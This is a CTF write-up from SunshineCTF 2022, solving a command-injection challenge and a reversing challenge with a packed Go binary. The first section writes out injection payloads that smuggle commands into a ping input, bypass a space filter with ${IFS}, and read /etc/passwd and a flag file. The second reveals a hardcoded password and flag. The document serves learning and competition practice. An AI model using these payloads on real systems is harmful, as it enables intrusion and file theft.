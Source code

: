 ```yaml
---
layout: post
category: writeup
custom_js: highlight
---
```



![](assets/images/sunshinectf22.png)


- sunshine CTF was fun! we were in person and unfortunately had no internet what so ever. 
- that caused me to not put as much effort as i normally would have.
- nevertheless i got some challenges done and here are their writeups!

### network pong

this challenge was interesting. since i had just refreshed my knowledge on the topic it felt easy. it's a classic command injection vulnerability except
they are using command expansion. 

`
{ping,-c,1,[INJECT ME]}
`

i figured that out by entering a semicolon


![](assets/images/expansion.png)

then i entered a whoami command

`0.0.0.0$(whoami)`

![](assets/images/whoami.png)

that was successful, therefore I ran a read file

`0.0.0.0$(cat /etc/passwd)`

![](assets/images/space.png)

this was bad as it could have been either of two things:
- length based check
- it doesn't like spaces

i wanted to be optimistic about this so i went ahead and assume it's a space issue:

`0.0.0.0$(cat${IFS}/etc/passwd)`

![](assets/images/cat.png)

this looks better, the previous error is gone and it is complaining about cat, let me try less

`0.0.0.0$(less${IFS}/etc/passwd)`

no error, so now lets try to read the flag

`0.0.0.0$(less${IFS}flag.txt)`

![](assets/images/flag.png)


success!


### plumber game

this was a reversing challenge that was pretty easy generally.

it starts off with a upx packed binary that needed to be unpacked:

```
gerbsec@illusion:~$ strings plumber_game | grep upx
$Info: This file is packed with the UPX executable packer http://upx.sf.net 
```

so i unpacked it with upx

```
gerbsec@illusion:~/chall/upx-4.0.1-amd64_linux$ ./upx -d ../plumber_game 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2022
UPX 4.0.1       Markus Oberhumer, Laszlo Molnar & John Reiser   Nov 16th 2022

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   2144897 <-    689396   32.14%   linux/amd64   plumber_game

Unpacked 1 file.
```

looking at strings, it looks like go, so i sent it into gdb

i run `disass main.main` and i see an interesting `runtime.memequal` soon after a `ScanIn` i suspect this is the string being compared to with the password.

```
   0x000000000048edb1 <+257>:   mov    QWORD PTR [rsp+0x10],rax
   0x000000000048edb6 <+262>:   mov    QWORD PTR [rsp],rcx
   0x000000000048edba <+266>:   lea    rax,[rip+0x33050]        # 0x4c1e11
   0x000000000048edc1 <+273>:   mov    QWORD PTR [rsp+0x8],rax
   0x000000000048edc6 <+278>:   call   0x44e150 <runtime.memequal>
   0x000000000048edcb <+283>:   movzx  eax,BYTE PTR [rsp+0x18]
   0x000000000048edd0 <+288>:   test   al,al
   ```


i add a bp at `*main.main+278`, i run and enter 16 chrs for the password since in a previous check it says it needs 16.

looking at the output I see what could possibly be a string:

```
0xc420047d40 —▸ 0x4c1e11 (string.*+6241) ◂— 0x36325f3172347440 ('@t4r1_26')
```

i inspect that address

```
pwndbg> x/s 0x4c1e11
0x4c1e11:       "@t4r1_2600_l0v3rGC worker (idle)Imperial_AramaicMSpanList_InsertMSpanList_RemoveMeroitic_CursiveOther_AlphabeticSIGNONE: no trapZanabazar_Square\nruntime stack:\nbad frame layoutbad special kindbad symb"...
```

i see the password `@t4r1_2600_l0v3r` and use it when running the binary:

```
gerbsec@illusion:~/chall$ ./plumber_game 
Please enter your password below:
@t4r1_2600_l0v3r
Password accepted! Dispensing flag...
sun{go_to_the_other_castle}@t4r1_2600_l0v3r
```

win!


beyond these two challenges, the rest of the ones i solved felt very lame and not writeup worthy, i also now know that i need to practice my pwn skills and get better at math! thanks for hosting my friends @ucf!


best, gerbsec
